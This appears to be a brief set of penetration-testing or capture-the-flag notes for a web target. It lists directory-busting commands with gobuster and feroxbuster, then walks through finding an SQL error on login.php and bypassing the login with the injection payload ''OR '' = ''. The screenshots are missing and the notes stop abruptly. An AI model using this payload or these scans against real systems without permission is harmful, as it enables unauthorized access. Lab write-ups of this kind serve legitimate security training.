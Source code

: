 
# Mapping
**robots.txt:**
```

```
**.svn:**
```

```
**.DS_STORE**
```

```

# Directory Busting
```
gobuster dir -u ${ip} -w /usr/share/wordlists/dirb/common.txt -t 5
```
```
dirbuster
```
```
feroxbuster -u http://host.domain.tld:80/ -x php -C 404 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```
![](../attachment/a9c289e08c9b41c171cdd7f57619a519.png)
# PHP
We can see login.php:
![](../attachment/c1142ce9f1cbeb0823ce2a1d1ebef8d4.png)

Now trying `'`:
![](../attachment/652d4def8c40e31e1435a470620b7f56.png)
We have sql error

Now trying sql injection:
```
'OR '' = '
```
![](../attachment/f8b1930d0d5521f520377922fff43d7a.png)
We get logged in

Then decoding it:
![](../attachment/f38c61042adacf79f71b30de89d99c76.png)

Now using this in port 9090